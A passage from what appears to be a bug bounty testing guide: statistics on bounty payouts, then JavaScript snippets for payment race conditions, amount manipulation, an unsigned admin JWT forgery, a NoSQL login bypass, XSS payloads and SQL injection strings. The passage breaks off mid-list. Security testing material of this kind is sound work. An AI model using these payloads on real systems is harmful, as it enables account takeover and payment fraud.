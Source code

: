 ### Bug Bounty Statistics
```
Severity Distribution:
├── Critical: 8% ($2,000-$10,000)
├── High: 25% ($500-$2,000)
├── Medium: 45% ($100-$500)
└── Low: 22% ($25-$100)

Category Distribution:
├── Authentication: 30%
├── Payment Security: 25%
├── Input Validation: 20%
├── Authorization: 15%
└── Other: 10%
```

## 🛠️ Advanced Attack Vectors

### Payment System Vulnerabilities
```javascript
// Race condition testing
const promises = Array(10).fill().map(() =>
  fetch('/api/add-withdrawal', {
    method: 'POST',
    headers: { 'Authorization': 'Bearer ' + token },
    body: JSON.stringify({ amount: 1000, address: '0x...' })
  })
);

// Amount manipulation
const maliciousAmounts = [-100, 0, 999999999, 'NaN', null];
```

### Authentication Bypass Techniques
```javascript
// JWT manipulation
const header = { alg: 'none', typ: 'JWT' };
const payload = { sub: 'admin', role: 'admin' };
const token = btoa(JSON.stringify(header)) + '.' +
              btoa(JSON.stringify(payload)) + '.';

// NoSQL injection
const loginPayload = {
  email: { "$ne": null },
  password: { "$ne": null }
};
```

### Input Validation Testing
```javascript
// XSS payloads
const xssPayloads = [
  '<script>alert("XSS")</script>',
  '<img src=x onerror=alert("XSS")>',
  'javascript:alert("XSS")',
  '${alert("XSS")}',
  '{{alert("XSS")}}'
];

// SQL injection
const sqlPayloads = [
  "' OR '1'='1",
  "admin'--",
```